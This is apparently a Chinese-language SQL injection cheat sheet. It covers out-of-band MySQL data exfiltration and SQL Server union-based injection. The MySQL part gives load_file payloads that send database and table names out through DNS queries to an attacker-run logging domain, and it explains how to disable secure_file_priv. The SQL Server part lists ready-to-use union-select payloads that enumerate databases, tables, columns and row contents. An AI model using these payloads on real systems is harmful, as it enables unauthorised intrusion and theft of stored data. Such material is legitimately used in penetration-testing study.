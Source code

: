 有时候注入发现并没有回显，也不能利用时间盲注，那么就可以利用带外通道，也就是利用其他协议或者渠道，如http请求、DNS解析、SMB服务等将数据带出。

**payload**

```mysql
select load_file(concat('\\\\',(select database()),'.xx.xx\\x));
```

其中的load_file的地址为一个远程文件，mysql在load_file()一个远程文件时会发送dns请求包去解析，所以可以带出数据，'\\data.xx.xx\x' ，xx.xx为自己的服务器名，没有的话可以去这里 [ceye.io](http://ceye.io) 申请一个

**mysql外带数据注入条件**

\1. mysql.ini 中 secure_file_priv 必须为空

( ps. 修改mysql.ini 文件，在[mysqld] 下加入 secure_file_priv =  )

> mysql 新版本下secure-file-priv字段 ： secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。
>
> - 当secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
> - 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
> - 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

```mysql
# 数据外带语法
?id=1 and 1=(select load_file(concat('\\\\', (payload), '.mysql.dns域名\\xxx')))
# 例如 外带数据库名出来
?id = 1 and 1=(select load_file(concat('\\\\', (select hex(table_name) from information_schema.tables where table_schema=database() limit 0,1), '.mysql.ol84xv.dnslog.cn\\xxx')))
```



## SQL_Server

### **SQL_Server联合查询**

```mssql
# 判断注入类型
?id=0'"\)]}--	# 判断是否是字符型和闭合情况
?id=0 and 1=1	# 盘点是否是数字型
# 判断字段数
?id=0' order by 3	# 回显正常为正确字段数
# 判断回显位置
?id=0' union select 1,2,3 -- 
# 查看当前库名和版本信息
?id=0' union select 1,db_name(),@@version() --
# 查看所有库
?id=0' union select top 1 1,2,name from master..sysdatabases where name not in (select top 0 name from master..sysdatabases) --
# 查看指定库中表的数量
?id=0' union select 1,2,count(name) from 库名..sysobjects where xtype='U' --
# 查看表
?id=0' union select top 1 1,2,name from 库名..sysobjects where xtype='U' and name not in (select top 0 name from 库名..sysobjects where xtype=char(85)) --
# 查看字段
?id=0' union select top 1 1,2,name from 表名..syscolumns where xtype=char(85) and name not in (select top 0 name from 表名..syscolumns where xtype='U') --
# 查看指定表中字段的数量
?id=0' union select 1,2,count(*) from 库名.dbo.syscolumns where id = object_id ('表名') --
# 查看表中字段
?id=0' union select top 1 1,2,name from 库名..syscolumns where id = object_id('表名') and name not in (select top 0 1,2,name from 库名..syscolumns where id = object_id('表名')) --
# 查看表中内容
?id=0' union select top 1 1,字段1,字段2 from 表名 where 字段1 not in (select top 0 username from users) and 字段2 not in (select top 0 password from 表名) --
```
